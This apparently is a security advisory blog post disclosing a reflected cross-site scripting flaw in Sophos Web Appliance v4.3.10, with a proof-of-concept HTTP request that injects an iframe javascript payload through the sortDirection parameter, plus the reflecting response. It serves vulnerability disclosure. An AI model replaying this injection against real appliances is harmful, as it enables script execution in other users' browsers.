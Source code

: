 ```yaml
---
layout: post
title:  "Cross-site scripting (XSS) in Sophos Web Appliance - v4.3.10"
date:   2023-04-30 19:51:02 +0700 
categories: [cve]
---
```


Vendor: Sophos

Product: Sophos Web Appliance

Version affected: v4.3.10

#### Product description:
The Sophos Web Appliance is designed to function as a web proxy that provides HTTP security at. the gateway. Potentially risky content is scanned for various forms of malware.

"Sophos Web Appliance (SWA) and Sophos Management Appliance (SMA) will reach End of Life (EOL) on 20 July 2023. When this happens, the products will continue to pass traffic but will no longer receive security or software updates. Cloud services with functions such as support services and LiveConnect will be turned off."

* CVE ID: awaiting, initially reported to Sophos on 15 May 2020 via Bugcrowd. Requested for CVE on Apr 28, 2023
* CWE ID: CWE-79

#### #Proof of Concept

Reflected cross-site scripting (XSS) vulnerability was discovered in the product.

A cross-site scripting vulnerability was identified.

It was possible to inject malicious code, I've successfully embedded a script in the response, which allowed me to execute it when the page loaded in the browser.

Tested on Firefox browser 76.0.1 (as of 15 May 2020).

Vulnerable input section were possible to set to:
sortDirection and sortKey

The following Proof of Concept (PoC) demonstrates the attack as well as displaying evidence of the script payload being returned in the response. 

#### PoC:
{% highlight ruby %}
POST /index.php?c=report_scheduler HTTP/1.1
Content-Length: 116
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64; Trident/7.0; rv:11.0) like Gecko
Host: 10.0.0.15
X-Requested-With: XMLHttpRequest
X-Prototype-Version: 1.6.1
Connection: keep-alive
Origin: https://10.0.0.15
Referer: https://10.0.0.15/index.php?c=report_scheduler&section=reports&STYLE=ea200102606123fe0ea40688110d6d0f
Accept: text/javascript, text/html, application/xml, text/xml, */*
Content-type: application/x-www-form-urlencoded; charset=UTF-8
Accept-Language: en-US

action=load&sortKey=name&sortDirection=asc<iframe src=javascript:alert(1) &STYLE=4de217dd48aa30993948de8601493ef2&_=

HTTP/1.1 200 OK
Date: Fri, 15 May 2020 08:30:27 GMT
Server: Apache
Cache-Control: no-store, no-cache, must-revalidate, private, post-check=0, pre-check=0
Pragma: no-cache
X-Frame-Options: sameorigin
X-Content-Type-Options: nosniff
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/html; charset=utf-8
Content-Length: 144

{"sortKey":"name","sortDirection":"asc<iframe src=javascript:alert(1) ","schedulesJS":[],"schedulesList":"<ul id=\"table_entries_list\"><\/ul>"}
{% endhighlight %}

#### References:
1. https://www.owasp.org/index.php/Cross-site_Scripting_(XSS)
2. https://support.sophos.com/support/s/article/KB-000039441?language=en_US
3. https://docs.sophos.com/nsg/swa/help/en-us/nsg/swa/concepts/AboutYourAppliance.html
